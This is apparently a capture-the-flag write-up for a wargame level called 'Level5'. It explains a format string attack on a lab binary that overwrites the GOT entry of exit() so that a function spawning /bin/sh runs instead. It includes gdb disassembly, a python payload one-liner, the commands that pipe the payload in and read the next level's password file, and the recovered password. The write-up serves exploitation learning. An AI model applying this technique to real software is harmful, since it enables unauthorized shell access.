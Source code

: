 # Level5

In this binary we can see that function `o()` calls `/bin/sh` however it is not part of the execution flow
We also notice that function `n()` called by `main` uses `printf` and `exit` 

Since RELRO (Relocation Read-Only) protection is off, we can use a *format string attack* to modify the *Global Offset Table*
By replacing the .got.plt relocation address of `exit()` to `o()`, the `n()` function will call `o()` instead of `exit()` and open a shell prompt for us

External function call -> PLT (Procedure Linkage Table) -> GOT (Global Offset Table)

First we must find `exit()` in the GOT
``
gdb level5
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) p *0x08049838 
$1 = 134513622	; 0x80483d6 this is the exit relocation address in the GOT that we want to replace with o() address
``

``
python -c "print '\x08\x04\x98\x38'[::-1] + '%134513824d' + '%4\$n'" > /tmp/inj5
cat /tmp/inj5 - | ./level5 | tr -d " "
cat /home/user/level6/.pass
8d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
``

